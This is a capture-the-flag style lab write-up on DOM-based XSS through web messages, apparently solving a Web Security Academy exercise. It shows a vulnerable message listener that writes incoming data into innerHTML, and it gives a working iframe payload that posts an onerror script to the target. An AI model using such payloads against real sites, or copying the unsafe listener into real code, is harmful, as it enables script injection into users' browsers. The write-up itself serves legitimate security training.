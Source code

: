 # DOM XSS using web messages
# Objective
This lab demonstrates a simple web message vulnerability.\
To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

# Solution
## Analysis
Website has `script` that creates `eventListener`  prepared for `ads`.

|![](Images/image.png)|
|:--:| 
| *Added event listener - Web messages* |

Vulnerable code:
```js
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

## Exploitation

|![](Images/image-1.png)|
|:--:| 
| *Testing* |
|![](Images/image-2.png)|
| *Testing basic XSS - provided payload was executed* |
|![](Images/image-3.png)|
| *Final payload* |

Final payload:
```js
<iframe src="https://0ae50024031834288497091600d10075.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=0 onerror=print()>','*')">
```


Explaination:
- `this` - refers to `iframe`.
- `contentWindow` - refers to window object of the `iframe`.
- `postMessage()` - calls web message method.
- `'*'` - specifies the `targetOrigin` - the origin the recipient window must have in order to receive the event. In order for the event to be dispatched, the origin must match exactly. `*` is a wildcard.
















